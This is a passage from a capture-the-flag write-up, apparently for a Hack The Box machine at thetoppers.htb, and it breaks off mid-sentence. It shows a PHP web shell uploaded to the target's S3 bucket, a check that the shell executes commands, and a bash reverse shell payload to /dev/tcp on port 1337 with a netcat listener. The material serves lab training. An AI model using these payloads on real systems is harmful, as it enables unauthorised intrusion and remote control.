 Let's create a PHP file to upload

`echo '<?php system($_GET["cmd"]); ?>' > shell.php`

Then, we can upload this PHP shell to the `thetoppers.htb` S3 bucket using the following command:

`aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

![alt text](image-6.png#center)

<br>

We can confirm that our shell is uploaded by navigating to `http://thetoppers.htb/shell.php`.

I tried executing the OS command `id` using the URL parameter cmd.
The response from the server contains the output of the OS command, id, which verified that we have code execution on the box.

![alt text](image-7.png#center)

<br>

Now let's get a reverse shell creating a new file `shell.sh` containing the following bash reverse shell payload which will connect back to our local machine on port `1337`.

```shell
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.28/1337 0>&1
```

And also start a `netcat` listener on our local port 1337 using the following command:

`nc lvnp 1337`

Let's also start a web server on our local machine on `port 8000` and host this bash file. It is crucial to note here that this command for hosting the web server **_must be run from the directory which contains the reverse shell file_**. So we must first traverse to the appropriate directory and then run the followign command:
